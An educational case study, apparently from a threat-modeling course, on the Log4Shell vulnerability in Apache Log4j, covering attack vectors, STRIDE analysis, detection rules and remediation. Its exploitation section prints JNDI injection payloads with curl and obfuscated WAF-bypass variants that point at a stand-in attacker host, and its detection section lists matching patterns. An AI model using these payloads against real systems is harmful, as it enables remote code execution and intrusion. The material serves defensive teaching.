






# Case Study: Log4Shell (CVE-2021-44228)

## Executive Summary

Log4Shell is a critical remote code execution vulnerability discovered in December 2021 in Apache Log4j, a ubiquitous Java logging library. This vulnerability demonstrates the catastrophic impact of software supply chain risks and the importance of threat modeling third-party dependencies.

**Impact Scope:**
- Affected virtually every Java application using Log4j 2.x
- CVSS Score: 10.0 (Maximum severity)
- Exploitation began within hours of disclosure
- Estimated 3 billion+ devices affected

---

## Technical Background

### What is Log4j?

Log4j is an open-source logging framework for Java applications, used by:
- Enterprise applications
- Cloud services (AWS, Azure, GCP)
- Security products (firewalls, SIEM)
- Games (Minecraft)
- Embedded systems

### The Vulnerability

```java
// Vulnerable logging pattern
logger.info("User login: " + userInput);

// If userInput contains:
// ${jndi:ldap://attacker.com/exploit}

// Log4j would:
// 1. Parse the ${} expression
// 2. Make JNDI lookup to attacker's LDAP server
// 3. Download and execute arbitrary Java class
```

### Attack Flow

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

---

## Attack Vectors

### Where Could Malicious Input Enter?

| Vector | Example | Logged By |
|--------|---------|-----------|
| HTTP Headers | User-Agent, X-Forwarded-For | Web servers |
| Form fields | Username, search queries | Applications |
| API parameters | JSON payloads | Microservices |
| DNS hostnames | Subdomain lookups | Infrastructure |
| MQTT messages | IoT payloads | IoT platforms |
| Email headers | Subject, From | Mail servers |

### Exploitation Examples

```bash
# Via User-Agent header
curl -H 'User-Agent: ${jndi:ldap://attacker.com/a}' https://target.com

# Via search parameter
curl 'https://target.com/search?q=${jndi:ldap://attacker.com/a}'

# Via login username
POST /login
{"username": "${jndi:ldap://attacker.com/a}", "password": "test"}

# Obfuscated payloads (bypassing WAF)
${${lower:j}ndi:${lower:l}dap://attacker.com/a}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://a.com/a}
```

---

## What Threat Modeling Would Have Found

### Data Flow Diagram Analysis

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

### STRIDE Analysis of Logging Framework

| Category | Threat | Applicable? | Finding |
|----------|--------|-------------|---------|
| **Spoofing** | Attacker impersonates legitimate user | N/A | - |
| **Tampering** | Modify data in transit/at rest | ✓ | Log message manipulation |
| **Repudiation** | Deny actions | N/A | - |
| **Information Disclosure** | Data leakage | ✓ | Exfiltrate env vars via JNDI |
| **Denial of Service** | Exhaust resources | ✓ | Recursive lookups |
| **Elevation of Privilege** | Gain higher access | ✓ | **RCE via JNDI code loading** |

### Attack Tree: Remote Code Execution via Logging

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

---

## Lessons for Threat Modeling

### 1. Dependencies Are Part of Your Attack Surface

```yaml
# Dependency inventory for threat model
dependencies:
  - name: log4j-core
    version: 2.14.1
    type: logging
    data_processed:
      - User input (logged)
      - HTTP headers (logged)
      - Error messages (logged)
    capabilities:
      - String interpolation
      - JNDI lookups (network)
      - Class loading
    trust_level: Executes with application privileges
```

### 2. Input Validation Must Include Logging

Traditional input validation focuses on:
- Database queries (SQL injection)
- Command execution (command injection)
- File paths (path traversal)

**Missing: Log output validation**

```java
// Standard input validation (before Log4Shell)
String sanitized = sanitizeForSQL(userInput);
String sanitized = sanitizeForHTML(userInput);
String sanitized = sanitizeForCommand(userInput);

// Missing!
String sanitized = sanitizeForLogging(userInput);
logger.info("User action: " + sanitized);
```

### 3. Zero Trust for Third-Party Code

| Trust Level | Example | Threat Model Impact |
|-------------|---------|---------------------|
| Fully trusted | Your own code | Direct control |
| Partially trusted | Open source libs | Review capabilities, limit scope |
| Untrusted | User input | Full validation |

**Log4j was treated as fully trusted but had dangerous capabilities.**

### 4. Network Egress as a Control

**If Log4j couldn't make outbound connections:**

- JNDI lookup would fail
- No malicious class download
- Attack would be blocked

Network egress controls:
□ Whitelist outbound connections
□ Block LDAP/RMI to internet
□ Monitor for unusual DNS queries
□ Use egress proxies with inspection


---

## Detection Strategies

### What to Look For

```
# Log patterns indicating exploitation attempts
regex_patterns:
  - '\$\{jndi:'
  - '\$\{lower:'
  - '\$\{upper:'
  - '\$\{::-'
  - '\$\{env:'
  - '\$\{sys:'
  - 'ldap://'
  - 'rmi://'
  - 'dns://'

# Network indicators
network_indicators:
  - Outbound LDAP (port 389, 636, 1389)
  - Outbound RMI (port 1099)
  - DNS queries with base64 patterns
  - Connections to known malicious IPs
```

### SIEM Detection Rules

```yaml
# Splunk detection
index=weblogs
| regex _raw="\$\{.*jndi.*\}"
| stats count by src_ip, uri_path, user_agent

# AWS CloudWatch Insights
fields @timestamp, @message
| filter @message like /\$\{.*jndi/
| stats count(*) by bin(5m)
```

---

## Remediation Strategies

### Immediate Actions (Day 0)

| Action | Effectiveness | Risk |
|--------|---------------|------|
| Upgrade Log4j to 2.17+ | Complete | Application testing needed |
| Set `-Dlog4j2.formatMsgNoLookups=true` | Partial | May break functionality |
| Remove JndiLookup.class | Complete | Requires restart |
| Block outbound LDAP/RMI | Reduces impact | Legitimate use blocked |
| WAF rules | Partial | Obfuscation bypasses |

### Long-term Mitigations

```
Supply Chain Security:
□ SBOM (Software Bill of Materials)
□ Dependency scanning in CI/CD
□ Automatic vulnerability alerts
□ Version pinning
□ Private artifact repository

Runtime Protection:
□ RASP (Runtime Application Self-Protection)
□ Egress filtering
□ Sandboxed execution
□ Least privilege (no network for logging)
□ Container isolation

Monitoring:
□ JNDI lookup monitoring
□ Outbound connection logging
□ Behavioral analysis
□ Threat intelligence feeds
```

---

## Threat Modeling Checklist for Dependencies

```
For each third-party library:

□ What data does it process?
  - User input?
  - Sensitive data?
  - Credentials?

□ What capabilities does it have?
  - Network access?
  - File system access?
  - Code execution?
  - System calls?

□ What privileges does it run with?
  - Application context?
  - Elevated privileges?
  - Network access?

□ Is it maintained?
  - Last update?
  - Security responsiveness?
  - CVE history?

□ Can it be sandboxed?
  - Limit network access?
  - Limit file system access?
  - Limit privileges?

□ Is there a more secure alternative?
  - Simpler library?
  - More mature security posture?
  - Better isolation?
```

---

## Key Takeaways

1. **Threat model your dependencies** - They have capabilities and process data
2. **Log statements are code execution paths** - Treat logged data as untrusted
3. **Defense in depth matters** - Egress controls would have limited impact
4. **SBOM is essential** - Know what's in your software
5. **Assume breach** - Have detection and response ready
6. **Supply chain is an attack vector** - Not just your code, all code

---

## References

- [NIST CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Apache Log4j Security](https://logging.apache.org/log4j/2.x/security.html)
- [CISA Alert](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-356a)
- [LunaSec Log4Shell Analysis](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-356a)

---

## Next Case Study

→ [IdentityCo/ThreatGroup-A Breach](identityco-threatgroup-a.md)

<!-- feynman-check -->

---

## Feynman check

Close the file. Blank page, no notes. Explain each of these to a competent engineer who has never
used this tool — **under five minutes, no jargon you can't define on the spot:**

- Technical Background
- Attack Vectors
- What Threat Modeling Would Have Found
- Lessons for Threat Modeling

**The gap is not what you forgot. It is where you used a word instead of a mechanism.**

| | |
|---|---|
| ✗ | *"We scan for vulnerabilities in the pipeline."* |
| ✓ | *"SAST reads source without running it, SCA resolves the dependency tree against an advisory database, and image scanning compares installed package versions to that same database. All three report what was known at build time — which is why the registry is re-scanned: the image does not change, the database does."* |

**Trace it:** A CVE published today against your base image → a blocked deploy. Name every component between the advisory and the refused `apply`.

Stop at the first component you cannot name. Reopen this file and read **only** that.

**Go deeper — only once the gap has a name:** the [SLSA threat model](https://slsa.dev/spec/v1.2/threats) — it names every point at which a build can be subverted, and most teams defend three of them.
Full list per domain: [`SOURCES.md`](../../SOURCES.md#devsecops)

→ Protocol, the three levels of knowing, and worked examples: [`MASTERY.md`](../../MASTERY.md)

<!-- /feynman-check -->
